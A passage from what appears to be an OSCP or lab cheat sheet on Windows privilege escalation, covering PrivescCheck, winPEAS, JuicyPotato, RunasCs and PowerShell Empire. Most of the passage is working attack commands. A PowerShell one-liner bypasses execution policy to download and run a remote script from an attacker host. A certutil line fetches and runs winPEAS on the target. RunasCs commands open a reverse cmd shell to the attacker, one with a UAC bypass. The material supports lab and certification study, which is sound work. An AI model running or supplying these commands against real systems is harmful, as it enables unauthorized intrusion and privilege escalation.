 ```cmd
powershell.exe -NoProfile -ExecutionPolicy Bypass -Command "Invoke-Expression (New-Object System.Net.WebClient).DownloadString('http://$KALI/PrivescCheck.ps1'); Invoke-PrivescCheck"
```

### 8.3. [winPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS)

[Releases](https://github.com/peass-ng/PEASS-ng/releases)

#### Prepare Kali

```sh
VERSION=$(curl -sI https://github.com/peass-ng/PEASS-ng/releases/latest | grep location: | cut -d / -f 8 | tr -d '\r' | tr -d 'v')
curl -sLo /var/www/html/winPEAS.bat https://github.com/peass-ng/PEASS-ng/releases/download/$VERSION/winPEAS.bat
```

#### Download and run on target

```cmd
certutil.exe /urlcache /f /split http://$KALI/winPEAS.bat %TEMP%\winPEAS.bat && %TEMP%\winPEAS.bat
```

### 8.4. JuicyPotato

Windows Privilege Escalation with **SeImpersonatePrivilege** and **SeAssignPrimaryTokenPrivilege**

Used in: [sandbox](https://github.com/joetanx/oscp/blob/main/pwk-lab/sandbox.md), [disco](https://github.com/joetanx/oscp/blob/main/pwk-lab/disco.md)

### 8.5. Switching user with [RunasCs](https://github.com/antonioCoco/RunasCs)

If you have a shell and credentials for another user, but cannot PsExec/evilwinrm to the target, use RunasCs to start `cmd` as that user.

Prepare RunasCs in Kali:

```sh
curl -LO https://github.com/antonioCoco/RunasCs/releases/download/v1.4/RunasCs.zip
unzip RunasCs.zip
mv RunasCs.exe /var/www/html
```

Execute:

```cmd
.\RunasCs.exe $USERNAME $PASSWORD cmd -r $KALI:$PORT
.\RunasCs.exe $USERNAME $PASSWORD cmd -r $KALI:$PORT --bypass-uac
```

Used in: [flight](/htb/flight.md)

### 8.6. [PowerShell Empire](https://github.com/BC-SECURITY/Empire)
